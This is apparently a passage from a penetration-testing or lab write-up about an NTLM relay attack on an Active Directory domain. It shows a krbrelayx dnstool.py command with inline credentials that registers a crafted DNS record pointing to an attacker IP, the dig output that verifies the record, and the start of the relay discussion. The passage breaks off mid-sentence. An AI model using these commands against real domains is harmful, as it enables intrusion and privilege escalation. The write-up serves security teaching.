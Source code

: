 Alternatively, we may register the DNS record for the particular machine:

```bash
/opt/tools/krbrelayx/dnstool.py -u 'jess.kingdom\Doros_ARCHIVON' -p 'bO3n21E6rc' 10.3.20.31 -a 'add' -r 'scriptorium1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' -d '198.51.100.5'
```

![](./assets/img/sysadmin/45eb12f51268946ed8d81899b105d65d.png)

After waiting for the DNS record to propagate, we can verify that the DNS record has been created:

```
┌──(kali㉿kali)-[~/oops]
└─$ dig localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA.jess.kingdom @PALACE-DC.jess.kingdom
...
localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA.jess.kingdom. 180 IN A 198.51.100.5
...

┌──(kali㉿kali)-[~/oops]
└─$ dig SCRIPTORIUM1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA.jess.kingdom @PALACE-DC.jess.kingdom
...
SCRIPTORIUM1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA.jess.kingdom. 180 IN A 198.51.100.5
...
```

### Performing the Relay

In a typical NTLM relay scenario, you could always coerce SMB authentication from a target machine using a tool such as [PetitPotam](https://github.com/topotam/PetitPotam). However, there are 2 problems: self-relay is not possible, and the relayed authentication will be from the machine account (`SCRIPTORIUM$`), which does not have local administrator privileges to themselves.

Attempting to perform the relay traditionally will result in an authentication failure, as the target machine will attempt to authenticate to itself, which is not possible:
